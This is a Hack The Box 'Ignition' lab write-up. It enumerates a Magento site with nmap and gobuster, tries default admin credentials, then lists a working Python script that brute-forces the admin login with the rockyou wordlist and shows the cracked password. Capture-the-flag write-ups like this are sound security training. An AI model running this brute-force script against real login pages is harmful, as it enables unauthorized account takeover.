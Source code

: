 ```yaml
---
layout: post
title: ignition
categories: htb
tags:
- htb
- starting_point
- ignition
- password_spray
author: nicoliboli
description: starting point | tier 1 | box 5
date: '2025-07-01 07:12:20 -0400'
---
```

# enumeration

```
$ nmap 10.129.1.27       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-30 16:56 EDT
Nmap scan report for 10.129.1.27
Host is up (0.096s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.58 seconds

$ nmap -p- --min-rate 1000 10.129.1.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-30 16:57 EDT
Warning: 10.129.1.27 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.1.27
Host is up (0.10s latency).
Not shown: 65467 closed tcp ports (conn-refused), 67 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 82.93 seconds

$ nmap -sC -sV -p 80 10.129.1.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-30 16:57 EDT
Nmap scan report for 10.129.1.27
Host is up (0.098s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://ignition.htb/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.08 seconds
```

with the redirect, update `/etc/hosts` to include that domain

```
$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.1.27     ignition.htb
```

## port 80

navigate to the page and notice that it is powered by magento. there is also a sign in and a create an account option

![ignition_home](/assets/img/ignition_home.png)

let `gobuster` run and see a couple subdirectories

```
$ gobuster dir -u http://ignition.htb -w /usr/share/wordlists/dirb/common.txt    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://ignition.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/0                    (Status: 200) [Size: 25803]
/admin                (Status: 200) [Size: 7095]
/catalog              (Status: 302) [Size: 0] [--> http://ignition.htb/]
/checkout             (Status: 302) [Size: 0] [--> http://ignition.htb/checkout/cart/]
/cms                  (Status: 200) [Size: 25817]
/contact              (Status: 200) [Size: 28673]
/enable-cookies       (Status: 200) [Size: 27176]
/errors               (Status: 301) [Size: 185] [--> http://ignition.htb/errors/]
/home                 (Status: 200) [Size: 25802]
/Home                 (Status: 301) [Size: 0] [--> http://ignition.htb/home]
/index.php            (Status: 200) [Size: 25815]
/media                (Status: 301) [Size: 185] [--> http://ignition.htb/media/]
/opt                  (Status: 301) [Size: 185] [--> http://ignition.htb/opt/]
/rest                 (Status: 400) [Size: 52]
/robots.txt           (Status: 200) [Size: 1]
/robots               (Status: 200) [Size: 1]
/setup                (Status: 301) [Size: 185] [--> http://ignition.htb/setup/]
/soap                 (Status: 200) [Size: 391]
/static               (Status: 301) [Size: 185] [--> http://ignition.htb/static/]
/wishlist             (Status: 302) [Size: 0] [--> http://ignition.htb/customer/account/login/referer/aHR0cDovL2lnbml0aW9uLmh0Yi93aXNobGlzdA%2C%2C/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

the `admin` directory looks juicy, so go there

![ignition_admin](/assets/img/ignition_admin.png)

tried entering default creds of `admin:123123` found [here](https://magento.stackexchange.com/questions/231135/what-is-the-default-magento-admin-username-and-password) and get an error. also tried `admin:admin`

![ignition_default_creds](/assets/img/ignition_default_creds.png)

# exploitation

i tried hydra, but got a hit on multiple passwords. instead i'm just going to throw together a quick python script instead. first i have to see what the login request looks like in burp with the creds `admin:password`

![ignition_burp_login](/assets/img/ignition_burp_login.png)

i'm going to go ahead and compare my python generated request before trying to brute force. i'm also going to pull out some headers and make sure to include those, as well as the POST data. then i'm going look for a string to match an incorrect login to see if the password is found.

![ignition_burp_compare](/assets/img/ignition_burp_compare.png)

those look pretty similar. i skimmed the request and response just to be sure that the length wasn't giving me false hope. below is the script i used (it's super slow, i know... one of these days i'll sit down and do a proper template with threads, but not today)

```
$ cat req.py    
import sys
import requests
import argparse
from random import randrange
from bs4 import BeautifulSoup

proxy = { "http" : "http://127.0.0.1:8080" }

parser = argparse.ArgumentParser(epilog="ex: python {} -u http://ignition.htb/admin -U admin".format(sys.argv[0]))

parser.add_argument('-u', '--url', required=True, help='url')
parser.add_argument('-U', '--username', required=True, help='username')
args = parser.parse_args()

passwords = []
with open("/usr/share/wordlists/rockyou.txt", "rb") as f:
    passwords = f.readlines()

for password in passwords:
    data = { "form_key" :"YS6Op9hJZsMyNfKr",
            "login[username]" : args.username,
            "login[password]" : password.decode().strip() }

    print("[*] sending login for {}:{}".format(args.username, password.decode().strip()))

    headers = { "Origin" : "http://ignition.htb/admin",
               "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
               "Cookie" : "admin=2ip3uu6cis7s4r4r9fav55a3bu; form_key=4P3NXGkQgkgpDKDh" }

    r = requests.post("{}".format(args.url), data=data, proxies=proxy, headers=headers)
    if r.text.find("incorrect") == -1:
        print("[*] PASSWORD FOUND!")
        print("[+] {} : {}".format(args.username, password.decode().strip()))
        break

$ python3 req.py -u http://ignition.htb/admin -U admin
[*] sending login for admin:123456
...
[*] sending login for admin:qwerty123

[*] PASSWORD FOUND!
[+] admin : qwerty123
```

login with the credentials `admin:qwerty123`

![ignition_dashboard](/assets/img/ignition_dashboard.png)
